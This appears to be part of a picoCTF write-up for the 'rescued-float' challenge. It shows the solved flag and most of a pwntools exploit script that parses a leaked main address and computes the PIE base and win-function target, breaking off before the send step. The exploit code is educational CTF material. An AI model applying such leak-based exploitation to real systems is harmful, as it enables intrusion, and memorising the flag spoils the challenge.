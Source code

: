 > You won!
```picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_6f4e723}```

## Exploit script (pwntools) — exploit.py

>Save this script locally and run it. It will connect, parse the leaked address, compute base/target, send the address, and print the service output (the flag).
```python
#!/usr/bin/env python3
# exploit.py — pwntools exploit for rescued-float (picoCTF)
from pwn import *
import re, sys, time
x = int(input("Port:")) #picoCTF_host(example: 58934)

# Remote target

HOST = 'rescued-float.picoctf.net'
PORT =   x

# Local binary (optional for local testing)
EXE = './vuln'

# Offsets extracted from the local binary (readelf -s ./vuln)
OFFSET_MAIN = 0x133d
OFFSET_WIN  = 0x12a7

# Toggle to True to run against local binary (./vuln)
USE_LOCAL = False

context.log_level = 'info'

def interact_with(proc):
    data = b''
    # Read up to a few lines to capture the banner (leaked main)
    for _ in range(6):
        try:
            line = proc.recvline(timeout=2)
            if not line:
                break
            data += line
        except Exception:
            break

    # Ensure we captured until the prompt if necessary
    if b':' not in data:
        try:
            data += proc.recvuntil(b':', timeout=2)
        except Exception:
            pass

    print("Captured data:\n", data.decode(errors='ignore'))

    m = re.search(rb'0x[0-9a-fA-F]+', data)
    if not m:
        log.error("Leaked main address not found.")
        return False

    leaked_main = int(m.group(0), 16)
    log.info(f"Leaked main: {hex(leaked_main)}")

    base = leaked_main - OFFSET_MAIN
    target = base + OFFSET_WIN
    log.info(f"Calculated base: {hex(base)}")
    log.info(f"Calculated win target: {hex(target)}")
```